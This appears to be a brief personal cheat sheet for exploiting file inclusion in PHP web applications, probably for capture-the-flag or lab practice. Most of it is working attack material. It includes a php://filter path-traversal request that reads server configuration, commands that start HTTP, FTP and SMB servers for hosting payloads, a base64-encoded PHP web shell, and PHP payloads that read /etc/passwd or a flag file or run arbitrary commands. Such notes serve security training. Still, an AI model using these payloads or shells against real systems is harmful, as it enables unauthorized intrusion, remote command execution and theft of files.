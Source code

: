 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
sudo python3 -m pyftpdlib -p 21

SMB Server
impacket-smbserver -smb2support share $(pwd)

Checking PHP Configurations
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

Base64 PHP Shell
echo '<?php system($_GET["cmd"]); ?>' | base64

# Useful Payloads
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
